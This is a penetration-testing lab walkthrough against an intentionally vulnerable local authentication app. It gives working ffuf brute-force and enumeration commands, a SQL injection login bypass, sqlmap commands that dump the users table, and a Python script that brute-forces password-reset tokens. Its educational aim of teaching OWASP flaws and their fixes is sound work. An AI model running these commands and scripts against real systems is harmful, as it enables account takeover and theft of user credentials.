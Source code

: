 # Exploiting the Vulnerable Authentication App

## Introduction

In this guide, we present a comprehensive demonstration of common authentication vulnerabilities found in web applications and how to exploit them using penetration testing tools. The vulnerable application intentionally implements insecure authentication mechanisms that align with the OWASP Top 10 Web Application Security Risks for demonstration purposes, specifically focusing on:

- **A2:2021 - Cryptographic Failures** (insecure storage of credentials)
- **A7:2021 - Identification and Authentication Failures** (weak password recovery, brute force vulnerabilities)
- **A1:2021 - Broken Access Control** (improper authorization checks)
- **A3:2021 - Injection** (SQL injection vulnerabilities)


## Vulnerability Summary Table

| Vulnerability | OWASP Category | Method of Exploitation | Tools Used | Impact |
|--------------|----------------|------------------------|------------|--------|
| User Enumeration | A7:2021 - Identification and Authentication Failures | Different error messages for invalid username vs. password | Manual testing, ffuf | Allows attackers to discover valid usernames |
| Brute Force Passwords | A7:2021 - Identification and Authentication Failures | No rate limiting or account lockout | ffuf, wordlists | Unauthorized access to user accounts |
| SQL Injection | A3:2021 - Injection | Unvalidated user input in SQL queries | Manual testing, SQLmap | Authentication bypass, data exfiltration |
| Token-based Authentication Bypass | A7:2021 - Identification and Authentication Failures | Predictable, short reset tokens | ffuf, Python script | Password reset for any user account |
| Parameter Tampering | A1:2021 - Broken Access Control | Manipulating request parameters | Burp Suite | Unauthorized access to admin functionality |
| Insecure Credential Storage | A2:2021 - Cryptographic Failures | Plaintext password storage | SQLmap | Exposure of all user credentials |

## Prerequisites
- Parrot Security OS VM running
- Vulnerable application running on your host machine (`http://localhost:3000`)
- **Tools**: Burp Suite, ffuf, SQLmap, and basic browser

## 1. User Enumeration
### Manual Testing
We can manually try some default users like `admin` and password `admin`, `administrator`, `root` ...

![alt text](images/image.png)
We can see that the app returns `Incorrect password`, also when we try a different user that is not likely to exist, say `Javascript` and password `123456` and we see that it returns `User not found`.

![alt text](images/image-2.png)
### Using ffuf for Username Enumeration
We can use Burpsuite to intercept the request as demonstrated in the following figure:
![alt text](images/image-8.png)
After this, we can use ffuf to enumerate users using wordlists, such as the `xato-net-10-million-usernames.txt` list from SecLists:
```shell
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt:FUZZ -u http://IP_ADDRESS:3000/api/login -X POST -H "Content-Type: application/json" -d '{"username":"FUZZ","password":"123456***"}' -fr "User not found"
```
Once we identify a valid username, such as `admin`, we can perform a brute-force attack on the password using a wordlist like `rockyou.txt`.

## 2. Brute Force Password Attacks
### Using ffuf for Password Brute Force
```shell
ffuf -w /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt:FUZZ -u http://IP_ADDRESS:3000/api/login -X POST -H "Content-Type: application/json" -d '{"username":"admin","password":"FUZZ"}' -fr "Incorrect password"
```
![alt text](images/image-14.png)
The password discovered is `chocolate`, allowing us to successfully log in as `admin`: 
![alt text](images/image-5.png)

## 3. SQL Injection
### Basic SQL Injection
If we try logging in with:
   - Username: `admin' --`
   - Password: (anything),
The resulting query looks like this: 
```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = 'sasa'
```
This manipulation effectively bypasses authentication, allowing us to successfully log in as admin.
### Advanced SQL Injection with SQLmap
To discover SQL Injection vulnerabilities in our login, we can use the following command:
```bash
sqlmap -u "http://IP_ADDRESS:3000/api/login" --data='{"username":"test","password":"test"}' --level=5 --risk=3 --dbms=sqlite --technique=B --headers="Content-Type: application/json" --ignore-code=401 --batch
```

![alt text](images/image-7.png)
This output indicates that SQLmap has successfully identified SQL injection vulnerabilities in the application.
For further exploitation, we can enumerate the `users` table with sqlmap:
```bash
sqlmap -u "http://IP_ADDRESS:3000/api/login" --data='{"username":"test","password":"test"}' --headers="Content-Type: application/json" --dbms=sqlite --technique=B --level=5 --risk=3 --dump -T users --ignore-code=401
```

![alt text](images/image-6.png)

## 4. Brute Force Password Reset Tokens
When we request a password reset for a known email, such as admin@example.com, we are prompted to enter a 4-digit token:

![alt text](images/image-9.png)
We can either use `Burp Intruder` or `ffuf` to brute force the reset token:
```shell
seq -w 0 9999 > tokens.txt
```
```shell
ffuf -w ./tokens.txt:FUZZ -u http://IP_ADDRESS:3000/api/verify-reset-token -X POST -H "Content-Type: application/json" -d '{"email":"admin@example.com","token":"FUZZ"}' -fr "Invalid token or email"
```

![alt text](images/image-19.png)

![alt text](images/image-16.png)
We have successfully brute forced the reset token and now we can change the admin password.
We can also use the following python script to achieve the same result:
```python
import requests
import json
url = "http://IP_ADDRESS:3000/api/reset-password"
email = "admin@example.com"
new_password = "hacked"
for i in range(10000):
    token = str(i).zfill(4)
    payload = {
        "email": email,
        "token": token,
        "newPassword": new_password
    }
    response = requests.post(url, json=payload)
    if "success" in response.text:
        print(f"Success! Token: {token}")
        break
    if i % 100 == 0:
        print(f"Tried {i} tokens...")
```

## 5. Authentication Bypass via Parameter Modification
### API Parameter Tampering
We can capture a GET request to `/index.html` in Burp Suite and change it to a GET request to `/api/admin/users` with query parameter `isAdmin=true`:

![alt text](images/image-12.png)
After forwarding the request we observe that the response contains user data: 

![alt text](images/image-13.png)

## Conclusion

The vulnerabilities demonstrated in this document represent common but critical flaws in web application authentication systems. They allow attackers to bypass authentication, access sensitive information, and gain unauthorized privileges.

In our secure version of this application, we will demonstrate how to remediate these vulnerabilities by implementing:
- Proper password hashing with salting
- Rate limiting and account lockout policies
- Parameterized queries to prevent SQL injection
- Strong, unpredictable tokens with proper validation
- Proper session management and access control